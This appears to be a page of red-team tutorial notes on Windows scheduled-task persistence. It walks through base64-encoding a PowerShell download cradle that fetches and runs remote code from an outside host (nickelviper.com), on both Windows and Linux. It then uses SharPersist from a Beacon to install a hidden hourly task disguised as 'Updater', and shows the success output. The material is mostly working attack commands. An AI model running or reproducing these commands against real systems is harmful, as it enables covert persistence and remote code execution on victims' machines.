 The Windows Task Scheduler allows us to create "tasks" that execute on a predetermined trigger.

That trigger can be a time of day, upon user-logon, when the computer goes idle, when the computer is locked, or a combination thereof.

### Creating a Scheduled Task

Here, we will be creating a scheduled task that will execute a PowerShell payload once every hour.

This will save ourselves from having to deal with lots of quotations within the IEX cradle, we can encode it to `Base64` and execute it using the `EncodedCommand` parameter in PowerShell (often appreciated to `-enc`). This is a little complicated to do, because it must use Unicode encoding (rather than `UTF-8` or ASCII).

#### In PowerShell (execute on the victim machine directly):

{% code overflow="wrap" %}
```powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```
{% endcode %}

**In Linux:**

{% code overflow="wrap" %}
```
ubuntu@DESKTOP-3BSK7NO ~> set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
ubuntu@DESKTOP-3BSK7NO ~> echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
```
{% endcode %}

**Then on the Beacon:**

{% code overflow="wrap" %}
```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added
```
{% endcode %}
